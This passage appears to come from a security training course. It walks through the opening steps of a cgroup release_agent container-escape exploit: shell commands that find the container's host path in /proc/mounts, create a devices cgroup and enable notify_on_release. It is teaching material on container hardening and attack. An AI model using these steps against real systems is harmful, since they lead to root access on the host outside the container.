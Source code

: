In Listing 49, we also find that all the cgroup controllers are writable (as indicated by the "rw"). However, they can't all be used reliably with the release notification exploit. For example, _freezer_, _blkio_, _cpuset_, and _systemd_ don't work with the standard exploit.

However, _hugetlb_, _cpu_, _cpuacct net_cls_, _net_prio_, _devices_, _misc_, _rdma_, _memory_, _perf_event_, and _pids_ can all be used with the standard exploit. In this section, we'll use the device cgroup controller to demonstrate the exploit.

Now that we have gathered the information we need to exploit this container, let's move on to building the exploit.

We'll need to point the contents of **release_agent** to the full path of the script on the host's file system, not the container's. We'll again use **sed** and a regular expression to pull the value of **upperdir** from **/proc/mounts**.

```
victim_release_agent:~# host_path=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/mounts)

victim_release_agent:~# echo $host_path
/var/lib/docker/overlay2/236bf7ed500f09c2cda6b5c672d085f871c7734ba01ed75ee817775df232dc88/diff
```

> Listing 51 - Obtaining and Setting the Host Path

At this point, the _host_path_ variable will hold the full host path of the container's file system.

Next, we need to create a new cgroup. As mentioned earlier, we'll choose to target the _devices_ cgroup. To create a new devices cgroup, we need to create a new directory in **/sys/fs/cgroup/devices/**. We'll name this new cgroup **escapeme**.

```
victim_release_agent:~# ls -alh /sys/fs/cgroup/devices/
total 0
drwxr-xr-x    2 root     root           0 Oct 24 19:30 .
dr-xr-xr-x   15 root     root         380 Oct 24 19:30 ..
-rw-r--r--    1 root     root           0 Oct 24 19:30 cgroup.clone_children
-rw-r--r--    1 root     root           0 Oct 24 19:30 cgroup.procs
--w-------    1 root     root           0 Oct 24 19:30 devices.allow
--w-------    1 root     root           0 Oct 24 19:30 devices.deny
-r--r--r--    1 root     root           0 Oct 24 19:30 devices.list
-rw-r--r--    1 root     root           0 Oct 24 19:30 notify_on_release
-rw-r--r--    1 root     root           0 Oct 24 19:30 tasks

victim_release_agent:~# mkdir /sys/fs/cgroup/devices/escapeme
```

> Listing 52 - Creating the escapeme Cgroup

Next, we need to enable the notifications when the cgroup contains no processes. We'll do this by enabling the **notify_on_release** feature. This is done by writing a **1** to the **/sys/fs/cgroup/devices/escapeme/notify_on_release** file.

```
victim_release_agent:~# echo 1 > /sys/fs/cgroup/devices/escapeme/notify_on_release

victim_release_agent:~# cat /sys/fs/cgroup/devices/escapeme/notify_on_release
1
```
